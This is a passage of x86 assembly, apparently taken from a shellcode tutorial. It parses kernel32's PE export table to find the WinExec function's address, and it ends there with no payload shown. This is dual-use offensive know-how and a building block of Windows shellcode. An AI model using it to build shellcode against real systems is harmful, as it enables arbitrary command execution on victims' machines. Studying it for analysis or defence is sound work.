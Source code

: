 ```c
		; get address of PE signature
		mov eax, [ebx + 3ch]			; 0x3c into the image - RVA of PE signature
		add eax, ebx				    	; address of PE signature: eax = eax + kernel32 base -> eax = 0xf8 + kernel32 base

		; get address of Export Table
		mov eax, [eax + 78h]			; 0x78 bytes after the PE signature is an RVA of Export Table
		add eax, ebx					    ; address of Export Table = Export Table RVA + kernel32 base
  
		; get number of exported functions
		mov ecx, [eax + 14h]		
		mov [ebp - 4h], ecx				; store number of exported functions

		; get address of exported functions table
		mov ecx, [eax + 1ch]			; get RVA of exported functions table
		add ecx, ebx				    	; get address of exported functions table
		mov [ebp - 8h], ecx				; store address of exported functions table

		; get address of name pointer table
		mov ecx, [eax + 20h]			; get RVA of Name Pointer Table
		add ecx, ebx					    ; get address of Name Pointer Table
		mov [ebp - 0ch], ecx			; store address of Name Pointer Table

		; get address of functions ordinal table
		mov ecx, [eax + 24h]			; get RVA of functions ordinal table
		add ecx, ebx					    ; get address of functions ordinal table
		mov [ebp - 10h], ecx			; store address of functions ordinal table
	
		; loop through exported function name pointer table and find position of WinExec
		xor eax, eax
		xor ecx, ecx
			
		findWinExecPosition:
			mov esi, [ebp - 14h]		; esi = pointer to WinExec
			mov edi, [ebp - 0ch]		; edi = pointer to exported function names table
			cld											; https://en.wikipedia.org/wiki/Direction_flag
			mov edi, [edi + eax*4]	; get RVA of the next function name in the exported function names table
			add edi, ebx				    ; get address of the next function name in the exported function names table

			mov cx, 8					      ; tell the next-comparison instruction to compare first 8 bytes
			repe cmpsb					    ; check if esi == edi
				
			jz WinExecFound
			inc eax									; increase the counter
			cmp eax, [ebp - 4h]			; check if we have looped over all the exported function names
			jne findWinExecPosition	
				
		WinExecFound:		
			mov ecx, [ebp - 10h]		; ecx = ordinal table
			mov edx, [ebp - 8h]			; edx = export address table

			; get address of WinExec ordinal
			mov ax, [ecx + eax * 2]	; get WinExec ordinal
			mov eax, [edx + eax * 4]; get RVA of WinExec function
			add eax, ebx				    ; get VA of WinExec

```